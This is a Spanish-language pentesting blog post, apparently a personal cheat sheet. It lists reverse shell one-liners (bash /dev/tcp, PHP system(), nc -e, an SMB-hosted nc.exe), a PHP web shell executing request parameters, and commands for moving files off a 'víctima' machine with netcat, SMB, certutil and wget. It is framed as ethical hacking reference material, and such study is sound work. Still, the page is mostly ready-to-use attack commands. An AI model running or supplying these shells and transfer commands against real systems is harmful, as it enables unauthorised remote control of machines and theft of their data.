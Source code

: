 ```yaml
---
layout: single
title: Comandos.
excerpt: "En esta sección conocerás algunos comandos que te serań utiles para realizar distintas tareas."
date: 2023-02-20
classes: wide
header:
  teaser: /assets/images/command.jpeg
  teaser_home_page: true
categories:
  - Pentesting
  - Ethical Hacking
tags:
- Linux
- Windows
---
```

## Reverse Shell.
Estas son algunas formas con las cuales puedes enviarte una reverse shell a tu equipo.
```
bash -c bash -i >& /dev/tcp/<ip-address>/443 0>&1

bash+-c+bash+-i+>%26+/dev/tcp/<ip-address>/443+0>%261
```
```
<?php system("bash -c 'bash -i >& /dev/tcp/<ip-address>/443 0>&1'") ?> 
```
```
nc -e /bin/bash <ip-address> 443
```
Web shell.
```
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```
```
smbserver.py smbFolder $(pwd) -smb2support
sudo nc -nlvp 443
\\<ip-address>\smbFolder\nc.exe -e cmd <ip-address> 443
```
Acceder al template 404.php.
```
curl -s -X GET "http://<ip-address>/?p=404.php"
```
<br><br>
## Reducir el peso de un archivo.
Con el comando `` du -hc `` puedes ver el peso que tiene un archivo. y con `` upx `` reduces el peso para que cuando lo quieras transferir de un equipo a otro sea más rapido.
```
du -hc <archivo>

upx <archivo>
```
<br><br>
## Tranferir archivos o binarios. 
Tranferir un archivo o binario con netcat.
```
nc -nlvp 443 > <file>         # Desde tu equipo.
# <file> Es el nombre con el cual se va a guardar en tu equipo.

nc <ip-addres> 443 < <file>   # Desde la máquina víctima.
# <file> Es el nombre del archivo que vas a transferir.
```

Transferir un archivo a una máquina Windows haciendo uso de smbserver.
```
impacket-smbserver smbFolder $(pwd) -smb2support  # Desde tu equipo.

copy <archivo> \\<ip-address>\smbFolder\<archivo> # Desde la máquina víctima.
```

Transferir un archivo usando python para montar un servicio http por el puerto 80 y con el binario certutil.exe realizar la transferencia.
```
python3 -m http.server 80          # Desde tu equipo.

certutil.exe -f -urlcache -split http://<ip-address>/<archivo_a_tranferir> <nombre_como_se_guardara>                              # Desde la máquina víctima
```
Transferir un archivo con python y wget.
```
python3 -m http.server 80           # Desde tu equipo.

wget http://<ip-address>/<archivo>  # Desde la máquina víctima.
```







